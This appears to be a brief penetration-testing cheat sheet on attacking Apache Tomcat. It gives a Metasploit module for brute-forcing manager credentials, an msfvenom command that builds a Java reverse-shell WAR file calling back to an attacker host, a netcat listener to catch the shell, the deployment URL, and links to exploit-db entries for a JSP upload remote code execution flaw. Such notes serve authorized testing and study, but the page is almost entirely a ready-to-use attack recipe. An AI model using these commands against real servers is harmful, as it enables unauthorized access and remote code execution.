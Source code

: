 # Apache Tomcat

For /manager, we need credentials.

For automatic brute force

```
msf5 > use auxiliary/scanner/http/tomcat_mgr_login
```

### WAR File Backdoor

When we got the credentials for manager, we can get shell.

```
$ msfvenom -p java/shell_reverse_tcp lhost=192.168.1.1 lport=80 -f war -o pwn.war
```

Browse -> Deploy

nc -nvlp 80&#x20;

http://192.168.1.2:8080/pwn/

### Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution

[https://www.exploit-db.com/exploits/42966\
https://www.exploit-db.com/exploits/42953](https://www.exploit-db.com/exploits/42966https://www.exploit-db.com/exploits/42953)
